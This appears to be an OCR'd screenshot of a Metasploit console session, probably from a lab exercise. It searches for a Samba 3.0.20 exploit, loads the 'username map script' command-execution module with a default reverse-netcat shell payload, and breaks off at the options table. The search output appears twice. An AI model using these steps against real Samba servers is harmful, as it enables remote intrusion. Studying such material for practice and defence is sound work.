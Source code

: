 ```
       =[ metasploit v6.4.38-dev                          ]
+ -- --=[ 2467 exploits - 1273 auxiliary - 431 post       ]
+ -- --=[ 1478 payloads - 49 encoders - 13 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 > search Samba 3.0.20

Matching Modules
================

   #  Name                                Disclosure Date  Rank       Check  Description
   -  ----                                ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/samba/usermap_script

msf6 >
msf6 > search Samba 3.0.20

Matching Modules
================

   #  Name                                Disclosure Date  Rank       Check  Description
   -  ----                                ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/samba/usermap_script

msf6 > use 0

[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(multi/samba/usermap_script) > show info

       Name: Samba "username map script" Command Execution
     Module: exploit/multi/samba/usermap_script
   Platform: Unix
       Arch: cmd
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2007-05-14

Provided by:
  jduck <jduck@metasploit.com>

Available targets:
      Id  Name
      --  ----
  =>  0   Automatic

Check supported:
  No

Basic options:
  Name    Current Setting  Required  Description
```